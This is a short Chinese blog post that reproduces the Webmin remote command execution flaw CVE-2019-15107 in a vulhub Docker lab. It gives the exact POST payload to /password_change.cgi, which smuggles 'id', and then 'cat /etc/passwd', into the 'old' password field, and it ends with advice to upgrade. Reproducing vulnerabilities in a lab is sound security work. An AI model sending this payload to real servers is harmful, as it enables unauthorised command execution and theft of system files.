


# CVE-2019-15107 Webmin 远程命令执行漏洞复现 - bonga - 博客园

> 原文：[`www.cnblogs.com/sym945/p/14165145.html`](https://www.cnblogs.com/sym945/p/14165145.html)

一、环境搭建

1、下载 vulhub 源码，下载链接：[`vulhub.org/#/index/`](https://vulhub.org/#/index/)

2、靶场虚拟机中安装好 docker 环境

3、进入到 vulhub 对应的漏洞目录中，使用命令 docker-compose up -d，启动即可

 访问 https://靶场 ip:10000，即可看到 webmin 登录界面

 二、漏洞复现

1、启动浏览器，访问到 webmin 登录界面

2、访问/password_change.cgi 目录

以 POST 的方式发送 POC：user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2，可以看到成功执行 id 命令

 4、将 id 命令，换成 cat /etc/passwd，一样正常执行

该漏洞利用方式简单，成功利用可直接向服务器执行命令，风险极高，使用 webmin 的用户要注意升级